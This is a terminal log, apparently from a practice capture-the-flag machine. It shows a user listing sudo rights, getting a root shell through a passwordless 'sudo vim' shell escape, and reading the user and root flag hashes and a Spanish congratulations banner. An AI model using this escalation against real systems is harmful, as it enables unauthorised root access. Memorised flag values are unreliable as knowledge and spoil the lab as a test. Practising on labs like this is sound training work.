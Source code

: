 
Last login: Tue Aug  5 08:13:55 2025 from 192.168.18.16
==============================================================================================================================

dragon@TheHackersLabs-Dragon:~$ ls
user.txt
dragon@TheHackersLabs-Dragon:~$ cat user.txt 
e1f9c2e8a1d8477f9b3f6cd298f9f3bd

==============================================================================================================================
dragon@TheHackersLabs-Dragon:~$ sudo -l
Matching Defaults entries for dragon on TheHackersLabs-Dragon:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User dragon may run the following commands on TheHackersLabs-Dragon:
    (ALL) NOPASSWD: /usr/bin/vim
dragon@TheHackersLabs-Dragon:~$ sudo vim -c ':!/bin/sh'

# whoami
root
==============================================================================================================================
# ls
user.txt
# cd /root
# ls
congrats.txt  root.txt
# cat root.txt
7a4d1b35eebf4aefa5f1b0198b0d6c17
# cat congrats.txt
#################################################
#                                               #
#   ¡FELICITACIONES!                            #
#                                               #
#   Has logrado escalar privilegios y obtener   #
#   acceso root en la Máquina Dragón.           #
#                                               #
#    A seguir aprendiendo con mas maquinas      #
#             y practicando                     #   